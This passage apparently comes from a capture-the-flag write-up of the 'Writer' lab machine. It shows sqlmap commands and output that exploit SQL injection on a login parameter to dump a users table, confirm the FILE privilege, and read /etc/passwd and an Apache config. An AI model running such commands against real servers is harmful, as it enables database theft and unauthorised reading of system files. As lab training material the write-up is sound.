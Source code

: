**SQLMAP Exploit**:

```console
sqlmap -r request.txt -p uname --batch -D writer -T users --dump
```

### LFI

**POC**:

```console
sqlmap -r request.txt --batch --privileges
...
[00:51:15] [INFO] adjusting time delay to 1 second due to good response times
'admin'@'localhost'
[00:52:33] [INFO] fetching number of privileges for user 'admin'
[00:52:33] [INFO] retrieved: 1
[00:52:34] [INFO] fetching privileges for user 'admin'
[00:52:34] [INFO] retrieved: FILE
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE
...
```

**Enumerate local files**:

- `sqlmap -r request.txt --file-read=/etc/passwd`, usernames:
  - root
  - kyle
  - filter
  - john

```console
└─╼$ sqlmap -r request.txt --file-read=/etc/passwd
got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] n
files saved to [1]:
[*] /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_passwd
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_passwd | grep -E 'sh$'
root:x:0:0:root:/root:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
```

- `sqlmap -r request.txt --file-read=/etc/apache2/sites-enabled/000-default.conf`
  - port 80 site: `/var/www/writer.htb/writer.wsgi`
  - port 8080 site(not open to public): `/var/www/writer2_project/`


```console
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_apache2_sites-enabled_000-default.conf
# Virtual host configuration for writer.htb domain
<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
```